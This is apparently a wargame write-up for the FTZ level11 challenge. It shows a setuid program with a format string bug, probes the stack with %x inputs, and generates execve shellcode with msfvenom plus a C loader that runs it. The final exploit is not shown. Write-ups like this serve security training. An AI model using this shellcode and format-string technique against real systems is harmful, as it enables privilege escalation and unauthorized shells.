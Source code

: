 # Level11

## This level's goal

- FSB(Format String Bug)
- Shell code

***

```
[level11@ftz level11]$ ls -l
total 28
-rwsr-x---    1 level12  level11     13733 Mar  8  2003 attackme
-rw-r-----    1 root     level11       168 Mar  8  2003 hint
drwxr-xr-x    2 root     level11      4096 Feb 24  2002 public_html
drwxrwxr-x    2 root     level11      4096 Jan 14  2009 tmp

[level11@ftz level11]$ cat hint

#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}
```

The hint seems the vulnerability of FSB and BOF   
I will exploit with FSB

```
[level11@ftz level11]$ ./attackme
Segmentation fault
```

This seems that Segmentation falut will be printed if there is no argument and then the argv[1] is the value of garbage.

```
[level11@ftz level11]$ ./attackme "AAAA"
AAAA
[level11@ftz level11]$ ./attackme "AAAA %x"
AAAA bffffc40
[level11@ftz level11]$ ./attackme "AAAA %x %x"
AAAA bffffc3d bffff300
[level11@ftz level11]$ ./attackme "AAAA %x %x %x"
AAAA bffffc3a bfffdb80 1
[level11@ftz level11]$ ./attackme "AAAA %x %x %x %x"
AAAA bffffc37 bfffde00 1 41414141
```

AAAA means 41414141

```
┌──(root💀kali)-[/test]
└─# msfvenom -p linux/x64/exec CMD=/bin/bash -f c -o bashcode.c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 46 bytes
Final size of c file: 220 bytes
Saved as: shellcode.c

┌──(root💀kali)-[/test]
└─# cat bashcode.c 
unsigned char buf[] = 
"\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50\x54\x5f\x52"
"\x66\x68\x2d\x63\x54\x5e\x52\xe8\x0a\x00\x00\x00\x2f\x62\x69"
"\x6e\x2f\x62\x61\x73\x68\x00\x56\x57\x54\x5e\x6a\x3b\x58\x0f"
"\x05";

[level11@ftz tmp]$ cat shellex.c
#include <stdio.h>

char shellcode[] ="\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50\x54\x5f\x52"
"\x66\x68\x2d\x63\x54\x5e\x52\xe8\x0a\x00\x00\x00\x2f\x62\x69"
"\x6e\x2f\x62\x61\x73\x68\x00\x56\x57\x54\x5e\x6a\x3b\x58\x0f"
"\x05";

int main()
{
        (*(void (*)()) shellcode)();
}

```

